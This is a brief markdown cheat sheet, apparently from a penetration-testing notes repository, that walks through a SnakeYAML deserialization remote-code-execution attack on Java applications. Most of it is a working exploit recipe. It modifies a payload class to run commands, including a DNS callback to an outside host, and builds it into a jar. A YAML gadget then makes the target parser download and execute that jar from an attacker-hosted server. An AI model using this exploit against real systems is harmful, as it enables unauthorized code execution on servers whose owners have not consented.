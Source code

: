 # Vulnerabilities in programming languages

# Java

## SnakeYAML
SnakeYAML deserialization fails and allows for RCE.
### Steps
- Clone the following repo: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)     
- Edit the following part of `yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java`
    ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    ```
- Compile and put everything into a `.jar` file
    ```bash
    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```
- Make a server to host the jar file
- Enter the following yaml code into the parse
    ```yaml
    !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["URL TO JAR FILE"]
    ]]
    ]
    ```

### Troubleshooting
- If the java version of the vulnerable yaml parser doesn't match your java version then recompile:
    ```bash
    javac --release <version> src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```

### References
- [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)
- [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
- [https://www.mankier.com/1/javac](https://www.mankier.com/1/javac)
- [https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment](https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment)
